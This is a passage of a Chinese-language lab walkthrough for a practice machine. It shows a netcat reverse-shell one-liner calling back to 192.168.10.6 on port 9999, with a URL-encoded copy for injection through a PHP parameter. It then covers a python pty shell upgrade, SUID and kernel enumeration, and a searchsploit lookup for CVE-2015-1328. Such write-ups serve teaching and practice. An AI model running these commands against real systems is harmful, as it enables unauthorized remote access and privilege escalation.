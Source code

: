# 反弹shell

通过上面的`php`代码，传参进行反弹shell

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.10.6 9999 >/tmp/f
#进行url编码处理
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.10.6%209999%20%3E%2Ftmp%2Ff
```

先在`kali`中使用`nc`监听9999端口，然后再执行上面的语句

![](./pic-1/32.jpg)

使用`compgen`查看`python`版本，然后进一步加shell

```shell
compgen -c | gerp python
python -c 'import pty;pty.spawn("/bin/bash")'
```



# CVE-2015-1328内核提权

查看`/home`目录下，发现有`ica`，与前面发现的一样，到该用户的主目录下，并没有什么可查看的

![](./pic-1/33.jpg)



使用`find`寻找具有SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```

![](./pic-1/34.jpg)

收集内核信息和系统版本，并测试有无`gcc`

```shell
uname -a
uname -r
cat /etc/issue
cat /etc/*release
lsb_release
gcc -v
```

![](./pic-1/35.jpg)

根据这个条件去`kali`使用`searchsploit`搜索

```shell
searchsploit 3.13 ubuntu 12
```
